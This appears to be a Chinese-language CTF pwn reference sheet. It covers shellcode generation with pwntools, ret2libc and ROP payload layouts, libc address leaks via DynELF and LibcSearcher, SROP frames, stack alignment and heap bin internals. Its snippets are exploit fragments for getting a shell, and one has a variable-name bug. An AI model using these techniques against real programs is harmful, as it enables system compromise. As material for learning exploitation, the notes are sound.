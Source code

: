 # 常用基础知识

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
context(arch='i386', os='linux')

shellcode = asm(shellcraft.sh())
```

### 执行命令

通过控制程序执行流程，替换相关函数地址为system函数地址，并利用程序中存在的、泄露的或输入的相关字符串，获取系统权限。

1. system("/bin/sh")
2. system("sh")
3. system("$0")

### 一句话getshell

one_gadget是指在libc库中存在直接执行execve("/bin/sh", 0, 0)指令的地址，可通过搜索获取其偏移，然后直接调用。

![](1.png)

### Linux系统调用syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read(fd, buf, size)  |
|  1  |  write(fd, buf, size)  |
|  15  |  rt_sigreturn  |
|  59  |  execve(cmd, 0, 0)  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

```
rax 系统调用号
rbx 参数1
rcx 参数2
rdx 参数3
```

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |  -  |
|  puts  |  -  |
|  gets  |  -  |
|  read  |  -  |
|  write  |  -  |
|  strcpy  |  \x00  |
|  strcmp  |  \x00  |
|  strncmp  |  比较长度为0则结果为0  |
|  strlen  |  \x00  |

### 函数调用方式

64位系统参数传递规则：

> 当参数少于7个时，参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。

> 当参数大于等于7个时，前6个与前面一样，之后的依次从右向左放入栈中（同32位）。

在溢出后，如果调用的是函数的plt地址或者got地址，则需要在栈中存放返回地址，栈中的数据格式如下：
```
system_plt + 返回地址 + 参数
```

如果程序中有直接call system地方，则不需要返回地址，可以直接在栈中放参数，栈中的数据格式如下：
```
call_system + 参数
```

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数。

## 0x006-堆分配中的bins

### fastbins

fastbins为单向链表，采用LIFO（后进先出）的方式。

### unsortedbin

来源：
1. 当一个较大的 **chunk** 被分割成两半后，如果剩下的部分大就会被放到 **unsortedbin** 中。
2. 释放一个不属于 **fastbin** 的 **chunk**，并且该 **chunk** 不和 **top chunk** 紧邻时，该 **chunk** 会被首先放到 **unsortedbin** 中。
3. 当进行 malloc_consolidate 时，如果不是和 **top chunk** 紧邻的话，可能会把合并后的 **chunk** 放到 **unsortedbin** 中。

使用：
1. **unsortedbin** 在使用的过程中，采用的遍历顺序是FIFO，即插入的时候插入到 **unsortedbin** 的头部，取出的时候从链表尾获取。
2. 在程序 malloc 时，如果在 **fastbin、smallbin** 中找不到对应大小的 **chunk**，就会尝试从 **unsortedbin** 中寻找 **chunk**。如果取出来的 **chunk** 大小刚好满足，就会直接返回给用户，否则就会把多余的 **chunk** 分别插入到对应的 **bin** 中。

**unsortedbin** 有一个特性，就是如果 **unsortedbin** 只有一个bin ，它的 **fd** 和 **bk** 指针会指向同一个地址（ **unsortedbin** 链表的头部），这个地址相对 **libc** 固定偏移 **0x3c4b78** ，所以得到这个 **fd** 的值，然后减去固定偏移，即可得到 **libc** 的基地址。

### smallbins

### largebins
